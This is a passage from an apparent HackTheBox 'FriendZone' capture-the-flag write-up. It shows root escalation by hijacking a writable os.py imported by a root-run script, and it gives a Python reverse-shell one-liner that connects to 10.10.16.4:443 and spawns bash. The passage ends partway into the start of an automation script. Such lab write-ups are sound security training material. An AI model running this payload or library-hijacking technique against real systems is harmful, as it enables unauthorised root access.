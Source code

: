 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2012:59:20.png)

The first blank line indicates that it looks first for the path of the script. If we put a python file called os.py in the same folder of the script, it'll execute when the reporter.py import the os library.

We cannot write in the same folder

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2001:00:47.png)

But we can write on the os.py

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2001:01:23.png)

So, let's get root in it

We add our call in the end of the os.py script

```py
import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2001:05:47.png)

And after some minutes, we get the root shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2001:06:22.png)

Now, let's automate everything

# Root Auto Pwn

And, here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-29-HackTheBox-FriendZone/2021-12-29-HackTheBox-FriendZone%2006:10:40.png)

root_friendzone_pwn.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# HackTheBox - Friendzone Auto Pwn

import argparse
import requests
import sys
import urllib
from smb.SMBHandler import SMBHandler
import base64
import urllib.parse
from threading import Thread
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from pwn import *
import base64

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# b64 Things
def b64e(s):
    return base64.b64encode(s.encode()).decode()
    
# Handler www-data which will be opened in thread
```
